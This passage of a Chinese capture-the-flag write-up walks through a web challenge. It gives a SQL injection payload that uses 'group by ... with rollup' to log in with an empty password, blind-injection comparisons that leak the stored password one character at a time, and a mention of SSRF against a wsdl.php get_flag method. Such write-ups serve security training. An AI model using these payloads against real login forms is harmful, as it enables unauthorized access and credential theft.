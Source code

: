用户名处

```
1’ or ‘1’=’1’ group by passwd with rollup having passwd is NULL — – 
```

这儿with rollup会增加一行，其中passwd为NULL，having passwd is NULL 表示选择我们增加的那一行，即有用户名，密码为空，所以我们登陆时密码为空即可~~

密码为空 登录成功~~

同时也可以注出账号密码：

```
' or passwd > '3' => Wrong password
					=> passwd第一位为'3'
' or passwd > '4' => wrong  username or password 
```

提示有个wsdl.php，打开看一下
![在这里插入图片描述](img/28699a60ac799ebc77fa5b587635a082.png)其中有很多方法，访问get_flag接口
![在这里插入图片描述](img/2f39d9779f7b9488a6b881c76e96604e.png)
必须越权加ssrf
接着我们读取文件